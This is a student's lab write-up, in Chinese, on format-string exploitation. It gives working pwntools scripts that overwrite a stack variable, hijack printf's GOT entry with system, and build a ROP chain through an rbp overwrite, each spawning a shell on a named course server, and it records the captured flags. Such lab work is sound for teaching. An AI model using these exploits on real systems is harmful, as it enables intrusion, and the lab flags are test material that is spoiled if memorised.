






## lab02-格式化字符串漏洞

### Task1

> 请阅读 fsb1.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：
ip： 8.154.20.109 ，port： 10300


```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb1
address of x is: 0x7ffd05b7a4f8
AAAAAAAA0x7ffd05b7a500.0x80.0x7f5cda7a17e2.0x20.0x7ffd05b7825c.(nil).0xbeaf.0x4141414141414141
```

得到 `%7$p` 为 0xbeaf，根据 `fsb1.c` ，只需要修改 x 的值使它不等于 0xbeaf 即可。

构造 payload：

```text
测试时的布局：
[1] [2] [3] [4] [5] [6] [7:0xbeaf] [8:AAAAAAAA]

payload的布局：

格式化字符串部分 │ 填充部分     │ 地址部分
"%1c%9$hn\x00"  │ \x00\x00... │ x_addr
```

代码实现：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

DEBUG = 1
REMOTE = 1

if REMOTE:
    p = remote("8.154.20.109", 10300)
    p.recvuntil(b"Please input your StudentID:\n")
    p.sendline(b"3220103784")
else:
    p = process("./fsb1")
    
p.recvuntil(b'address of x is: ')
x_addr = eval(p.recvline().strip().decode())

log.success("get address successfully: x_addr = %x", x_addr)

# write x_addr to the 9th parameter of printf
payload = ""
payload += "%1c"
payload += "%9$hn" # 9 is the index of x_addr in the stack
payload = payload.encode().ljust(8, b'0') # padding
payload += p64(x_addr) # the address of x

p.sendline(payload)
p.interactive()
```

本地测试通过：



远程测试通过，得到 flag：` ssec2024{f0rmat_0v3rr1d3_succ3ss|162130ce}`



### Task2

> 请阅读 fsb2.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10301`
攻击步骤：
通过泄露 libc 函数来确定 libc 加载的虚拟地址，并通过计算拿到 system 的地址；
覆盖 printf 的 GOT 表为 system；
调用 print 以触发 system 从而 getshell。
你可以通过学习 pwntools中fmtstr 库的相关API来简化攻击流程。

攻击思路：

1. 泄露printf的地址：
构造一个格式化字符串，如"%7$s"，并在之后紧跟着printf的GOT地址（假设elf.got["printf"]），来泄露printf函数在内存中的实际地址。
利用泄露出的地址，推算libc基地址。libc的偏移通常可以从libc-database等资料库中获取。
2. 计算system函数的地址：
通过泄露出的printf地址减去printf在libc中的偏移量，即可获得libc的基地址。
结合system在libc中的偏移量，可以计算出system的实际地址。构造格式化字符串，覆盖GOT表。
3. 触发system函数：
覆盖完成后，通过再次调用printf，输入"/bin/sh"，使得程序调用system("/bin/sh")，从而获取shell。

```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb2
AAAAAAAA0x7ffc9b057900.0x100.0x7fa107c667e2.0x7fa107d6df10.0x7fa107d8c040.0x4141414141414141.0x70252e70252e7025.0x252e70252e70252e
```

得到 offset 为 6.

1. 泄露printf的地址：

```python
libc = ELF("./libc.so")
elf = ELF("./fsb2")
printf_got = elf.got["printf"]
offset = 6

payload = ""
payload += "%7$s"
payload = payload.encode().ljust(8, b'0') # padding
payload += p64(printf_got) # the address of printf
```
2. 计算system函数的地址, 构造格式化字符串，覆盖GOT表：

```python
printf_addr = u64(p.recv(6).ljust(8, b"\x00"))
system_addr = printf_addr - (libc.symbols["printf"] - libc.symbols["system"])
if DEBUG:
    log.info(f"printf_addr = {hex(printf_addr)}")
    log.info(f"system_addr = {hex(system_addr)}")
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size="short")
info(f"payload = {payload}")
```

3. 触发system函数：

```python
p.send(payload)
p.send(b"/bin/sh\0")
p.interactive()
```

本地测试通过：



远程测试通过，得到  flag: `ssec2024{g0t_0v3rrid3_2_sh3ll|66f9f180}`



### bonus

> 请阅读 bonus.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10302`
提示：
本题目中字符串不再位于栈上，无法利用之前的方法覆盖任意地址的内存。但栈上一些敏感内存仍然可以被覆盖，比如函数执行 push rbp 保存的rbp寄存器。

攻击思路：

1. 利用格式化字符串漏洞重写 rbp 或其他地址。
2. 通过 ROP 构造跳转链，最终调用 `system("/bin/sh")` 获取 shell。

代码实现：

1. 同上述解法，得到 offset 为 8，从 elf 文件中获取相关地址，使用 find_gadget 找到 ret 和 pop rdi 的地址。

```python
elf = ELF("./bonus")
libc = ELF("./libc.so")
system = elf.symbols["system"]
buffer = elf.symbols["buffer"]
offset = 8
rop = ROP(elf)
ret =  rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
```

2. 构造 payload 的前半部分，覆盖 rbp 为 buffer 的地址。

```python
p.sendline("dummy input")

payload = ""
length = 0x40
payload += "%{}c%{}$lln".format(buffer + length, offset)
payload = payload.encode().ljust(length, b"\x00")
payload += b"Anya" * 2
```

3. 构造 payload 的后半部分，使用 ROP 调用 system("/bin/sh")。

```python
payload += p64(pop_rdi)
payload += p64(buffer + 2 * length)
rop.raw(system)
payload += p64(ret)
payload += rop.chain()
payload = payload.ljust(2 * length, b"\x00")
payload += b"/bin/sh\x00"
```

4. 发送 payload，获取 shell。

```python
p.sendline(payload)
p.interactive()
```

本地测试通过：



远程测试通过，得到 flag: `ssec2024{Format_String_Exploits_Are_Powerful|d40ea8a2}`


